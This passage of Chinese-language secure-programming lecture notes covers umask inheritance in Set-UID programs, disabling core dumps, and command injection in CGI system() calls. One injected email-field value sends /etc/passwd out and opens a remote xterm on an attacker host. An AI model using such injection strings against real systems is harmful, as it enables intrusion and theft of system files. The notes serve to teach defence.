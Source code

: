     *   它决定了新创建文件的默认权限
    *   子进程从它的父进程继承该值
    *   考虑这个场景：

        一个 Set-UID 程序在`/tmp/tempfile`保存临时数据。这个文件的完整性十分重要。如果程序员假设 umask 值为 077，假设可能不成立。攻击者可以从自己的 Shell 中运行这个程序，Set-UID 会从 Shell 继承这个 umask 值。

        如何防护它：显式设置 umask 值（使用`umask(077)`），或者显式设置新创建文件的权限（使用`chmod("newfile",0755)`。

*   内存转储

    *   如果你的程序保存了敏感数据，例如未加密的密码，你应该禁止程序的内核转储。
    *   如何禁用内和转储？

        ```c
        #include <sys/time.h> 
        #include <sys/resource.h> 
        #include <unistd.h> 

        int main(int argc, char **argv) {
            struct rlimit   rlim;
            getrlimit(RLIMIT_CORE, &rlim);
            rlim.rlim_max = rlim.rlim_cur = 0;
            if (setrlimit(RLIMIT_CORE, &rlim)) {
                exit(-1);         
            }
            ...
            return 0;
        } 
        ```

    *   Solaris 默认（Solaris 8 开始）不允许 Set-UID 程序由于明显的安全原因的内核转储。

### 3 调用其它程序

*   安全地调用其它程序

    *   如果 CGI 脚本这样做，会有什么潜在的问题？

        ```c
        // $Recipient contains email address provided by the user 
        //      using web forms. 
        system("/bin/mail", $Recipient); 
        ```

    *   `$Recipient`可能包含 Shell 的特殊字符（`| & < >`）（命令注入）。

        ```c
        "attacker@hotmail.com < /etc/passwd;  
        export DISPLAY=proxy.attacker.org:0; /usr/X11R6/bin/xterm&;" 
        ```

    *   如果 CGI 脚本这样做，会有什么潜在的问题？

        ```c
        system("cat", "/var/stats/$username"); 
        ```
